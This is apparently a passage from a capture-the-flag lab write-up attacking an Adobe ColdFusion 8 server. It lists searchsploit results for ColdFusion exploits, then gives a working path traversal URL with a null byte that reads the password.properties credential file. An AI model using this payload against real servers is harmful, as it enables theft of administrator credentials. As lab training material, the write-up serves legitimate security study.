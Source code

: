 ```bash
Adobe ColdFusion 9 - Administrative Authentication Bypass                                                                 | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)                                                    | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                                                           | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                                                 | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Scripting                              | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query String Cross-Site Scripting           | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scripting                    | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scripting                     | cfm/webapps/33168.txt
Adobe ColdFusion versions 2018_15 (and earlier) and 2021_5 and earlier - Arbitrary File Read                              | multiple/webapps/51875.py
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Upload / Execution                                       | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages                                                             | windows/local/19220.c
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                                         | cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure                                                                                   | multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site Scripting                                                                     | cfm/remote/21548.txt
ColdFusion MX - Remote Development Service                                                                                | windows/remote/50.pl
ColdFusion Scripts Red_Reservations - Database Disclosure                                                                 | asp/webapps/7440.txt
ColdFusion Server 2.0/3.x/4.x - Administrator Login Password Denial of Service                                            | multiple/dos/19996.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure                                                 | multiple/remote/22867.pl
Macromedia ColdFusion MX 6.0 - SQL Error Message Cross-Site Scripting                                                     | cfm/webapps/23256.txt
Macromedia ColdFusion MX 6.1 - Template Handling Privilege Escalation                                                     | multiple/remote/24654.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

### Path Traversal to retrieve credential

Let's use Path Traversal vulnerability : `14641.py`

The exploit includes the following URL as an example.

```bash
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

